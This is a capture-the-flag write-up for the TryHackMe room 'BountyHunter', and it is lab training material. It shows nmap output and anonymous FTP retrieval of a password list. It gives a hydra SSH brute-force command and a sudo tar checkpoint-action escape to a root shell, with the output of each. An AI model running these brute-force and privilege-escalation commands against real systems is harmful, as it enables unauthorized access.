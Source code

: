 # BountyHunter

```
t3nsh0@KALI:~/htb/smag$ sudo nmap 10.10.146.130 -sC -sV
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-31 21:11 CEST
Nmap scan report for 10.10.146.130
Host is up (0.071s latency).
Not shown: 967 filtered ports, 30 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.10.225
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 43.86 seconds
```

Webpage is telling us we have to hack this room... I downloaded the picture in the background and tried steghide against it but nothing here.<br>
Nothing else here even after a gobuster scan.

# FTP
It's allowed in anonymous<br>
```
t3nsh0@KALI:~/htb/smag$ ftp 10.10.146.130
Connected to 10.10.146.130.
220 (vsFTPd 3.0.3)
Name (10.10.146.130:t3nsh0): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -a
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 Jun 07 21:47 .
drwxr-xr-x    2 ftp      ftp          4096 Jun 07 21:47 ..
-rw-rw-r--    1 ftp      ftp           418 Jun 07 21:41 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07 21:47 task.txt
226 Directory send OK.
```
locks.txt is a list of password and task has a username inside of it. 
# SSH
Let's brute force ssh !<br>
I used crackmap exec but it didn't work... I've lost a lot of time because of it...<br>
Let's brute force with hydra !<br>

```hydra -l <userame we found> -P locks.txt 10.10.146.130 ssh```<br>

We are connected and we have our user flag !<br>
# ROOT
Before running linpeas let's check sudo -l<br>
```xxxxxx@bountyhacker:~/Desktop$ sudo -l
[sudo] password for xxxxxx: 
Matching Defaults entries for xxxxxx on bountyhacker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
``` 
<br>
There is a privesc with it on gtfobins so it's an easy win <br>

``sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
``

<br>
Let's run it :<br>

```
xxxxx@bountyhacker:~/Desktop$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names
# /bin/bash
root@bountyhacker:~/Desktop# id
uid=0(root) gid=0(root) groups=0(root)
root@bountyhacker:~/Desktop# ls -l /root/
total 4
-rw-r--r-- 1 root root 19 Jun  7 17:16 root.txt
root@bountyhacker:~/Desktop# 
```

Here we go ! Very easy room but it's still nice to do it. <br>
Thanks [Sevuhl](https://tryhackme.com/p/Sevuhl) !
[TryHackMe](https://tryhackme.com)
